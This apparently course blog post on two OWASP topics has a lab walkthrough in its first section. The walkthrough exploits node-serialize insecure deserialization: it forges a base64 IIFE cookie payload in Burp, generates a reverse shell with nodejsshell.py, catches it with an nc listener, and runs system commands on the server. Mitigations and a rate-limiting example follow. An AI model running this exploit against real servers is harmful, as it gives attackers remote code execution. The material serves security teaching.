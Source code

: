 ```yaml
---
layout: post
title: Insecure Deserialization & Insufficient Logging & Monitoring
---
```


# Insecure Deserialization
Serialization is the process where an object is encoded into a byte-stream which can be transferred across a network. It is then de-serialized to recover the object. Depending on the application, serialized objects may include executable instructions or authentication credentials. These serialized objects may be modified by an adversary. If the application is not able to detect tampering, it can allow the adversary to achieve effects like remote code execution or privilege escalation on the server.

We will be exploiting a known vulnerability of node-serialize discussed in last week's post.      
>**Vulnerability:** Untrusted data passed into unserialize() function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE). Specifically the vulnerability in the web app is that it reads a cookie named profile from the HTTP request, perform base64 decode of the cookie value and passes it to unserialize() function. As cookie is an untrusted input, an attacker can craft malicious cookie value to exploit this vulnerability. <sub>[1]</sub>

### Exercise 
**Note:** Since this exercise gains access into the server we are unable to exploit the live vulnerable web app hosted in Heroku as they have added security on their back-end to prevent these kinds of attacks.    

1. Setup: 
- Clone or download https://github.com/ajinabraham/Node.Js-Security-Course.git
- On a seperate folder clone or download https://github.com/ashwinsawant/sbr.git and checkout branch Deserial. Run command 'npm start' to run web app locally on port 3000. 

     ![Local Host](/images/week8_npmStart.JPG)

2. Open Burp, go to Proxy > Options and make sure 127.0.0.1:8080 Proxy Listener is enabled. Then go to Firefox and change manual proxy settings to match Burp's.

     ![Burp Proxy](/images/week8_Proxy.JPG)

3. On Burp go to Proxy > Intercept and make sure Intercept is on. On Firefox go to localhost:3000/login and enter the following credentials at the login page: **Email:** cocho@gmail.com and **Password:** password      
Read carefully after GET you will see an api/login click Forward and then you will see a GET /setCookies, this is the request we are interested in.  We have just intercepted traffic and now have access to the encryted cookie along with the request format. Click on Action button and Send to Repeater. We will use later on in the process.   

   ![Burp Intercept](/images/week8_Cookie.JPG)

4. Go to the Node.Js-Security-Course folder and open the terminal and run the following command: `python nodejsshell.py 127.0.0.1 3333`
Copy text everything starting at `eval(`  and paste it in Burp's Decoder tab. 

   ![Python Scrypt](/images/week8_python.JPG)
   
5. Copy paste or type the following on the Decoder tab before eval `{"rce":"_$$ND_FUNC$$_function (){ ` and copy paste or type `}()"}` at the end after 10)) Click on Encode as and select Base 64 to get a long string of characters. 

    ![Decoder](/images/week8_base64.JPG)

6. Open a terminal and type `nc -l 127.0.0.1 3333`.  Looks like nothing is happening but give it a minute while we run the rest of the exploit. 

7. Copy the encoded string and got to the Repeater tab, replace the red text after profile= with the string and click Send. You should get a Response 302 Found and a message Redirecting like the image below. 

   ![Repeater Redirecting](/images/week8_Redirecting.JPG)   
   
8. Go back to the terminal where you entered `nc -l 127.0.0.1 3333` and you will see a Connected! message. Here are a few commands you can try      
`ls` list directory contents.      
`whoami` It displays the username of the current user.      
`pwd` Print Working Directory. It prints the path of the working directory, starting from the root.     
`uname -r` Used to get information about current operating system. In this case the Linux kernel version.     
`cat /etc/os-release` Name, version of Operating System.     
`exit` Get out of shell and back into working directory.     

   ![Shell](/images/week8_Connected.JPG)   

**[Video of Insecure Deserialization on localhost](https://media.oregonstate.edu/media/t/0_1e1lfvl2)**

### Analysis
Do not to accept serialized objects from untrusted sources or to use serialization mediums that only permit primitive data types. If that is not possible, consider the following:     
- Implementing integrity checks such as digital signatures on any serialized objects to prevent hostile object creation or data tampering.
- Enforcing strict type constraints during deserialization before object creation as the code typically expects a definable set of classes. Bypasses to this technique have been demonstrated, so reliance solely on this is not advisable.
- Isolating and running code that deserializes in low privilege environments when possible.
- Logging deserialization exceptions and failures, such as where the incoming type is not the expected type, or the deserialization throws exceptions.
- Restricting or monitoring incoming and outgoing network connectivity from containers or servers that deserialize.
Monitoring deserialization, alerting if a user deserializes constantly. <sub>[2]</sub>

### References
1. <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
2. <https://hdivsecurity.com/owasp-insecure-deserialization> 
3. <https://github.com/ajinabraham/Node.Js-Security-Course>
4. <https://expressjs.com/en/resources/middleware/cookie-parser.html>
5. <https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/>

# Insufficient Logging & Monitoring

Logging by itself does not prevent attacks. It can allow a detailed post-hoc analysis of attacks. The amount of data generated by logging can be overwhelming for someone trying to do manual monitoring. Hence, the process should be automated to the extent possible. For example, we may want to log all attempts to access `/api/login` and monitor it so as to disallow more than 5 attempts from any one IP address within a timeframe of one minute. This functionality is so common that it has been made into the `express-rate-limit` NPM package.

### Exercise

1. Go to <http://sbr2020secure.herokuapp.com/>. You will see a login page. Enter `ash2020@yahoo.com` for the username and `abcd` for the password and click 'Submit'.

    ![Login page](/images/week9_login.png)

    As the username and password are incorrect, the app will show the login page again.

    ![Login page](/images/week9_login_again.png)

2. Quickly enter five more incorrect username/password combinations. You will see the following error message.

    ![Rate-limit error](/images/week9_error.png)
    
### Analysis

On examining the logs, we can see that the server keeps track of all the `POST` requests to `/api/login`. When the number of requests from an IP address exceed five per minute, a HTTP response with status code `429` is sent.

   ![Logs](/images/week9_logs.png)

This serves to foil brute force attacks. Production API endpoints should usually have some protection of this kind.

The relevant code that implements this in our project is as follows:

```
const rateLimiter = require('express-rate-limit');

const loginLimiter = rateLimiter({
  windowMs: 60 * 1000,
  max: 5,
  headers: true,
  handler: function (req, res) {
    console.log("SECURITY WARNING: " + req.ip + " exceeded login rate limit!");
    res.status(429).send('You have exceeded the 5 login attempts in 1 minute limit!');
  }
});

router.use("/login", loginLimiter);
```

### References

1. <https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring>
2. <https://www.npmjs.com/package/express-rate-limit>
3. <https://blog.logrocket.com/rate-limiting-node-js/>

